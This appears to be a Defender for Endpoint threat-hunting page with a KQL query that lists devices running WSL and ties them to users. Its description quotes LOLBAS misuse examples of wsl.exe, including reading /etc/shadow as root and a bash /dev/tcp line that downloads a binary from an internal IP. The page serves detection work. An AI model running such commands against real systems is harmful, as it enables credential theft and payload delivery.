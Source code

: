# List devices that have WSL installed

## Query Information

#### Description
Windows Subsystem for Linux may be used by adversaries to perform actions as root, or to download files. This query lists all devices that have WSL installed and it was active in the last 30 days. This may give an indidcation about the usage in your environment. Microsoft recommends listing WSL, if there is no scenario you explicitly require them. WSL Should be installed in the folder: C:\Windows\System32\wsl.exe. From the Lolbas project some suspicious queries that can be executed by WSL are:

```
wsl.exe -u root -e cat /etc/shadow

wsl.exe --system calc.exe

wsl.exe --exec bash -c 'cat < /dev/tcp/192.168.1.10/54 > binary'
```


#### References
- https://learn.microsoft.com/en-us/windows/wsl/
- https://lolbas-project.github.io/lolbas/OtherMSBinaries/Wsl/
- https://learn.microsoft.com/en-us/windows/security/threat-protection/windows-defender-application-control/microsoft-recommended-block-rules

## Defender For Endpoint
```
let WSLDevices = DeviceProcessEvents
| where Timestamp > ago(30d)
| where FileName == "wsl.exe"
| distinct DeviceId;
DeviceInfo
| distinct DeviceId, DeviceName, LoggedOnUsers
| where DeviceId in (WSLDevices)
| project DeviceName, CurrentUsers = parse_json(LoggedOnUsers)
| mv-apply CurrentUsers on (
    project DeviceName, User = CurrentUsers.UserName, SID = CurrentUsers.Sid
)
| project DeviceName, Username = tostring(User), OnPremSid = tostring(SID)
| join IdentityInfo on OnPremSid
| extend FullName = strcat(GivenName, " ", Surname)
| distinct DeviceName, FullName, JobTitle, EmailAddress
```
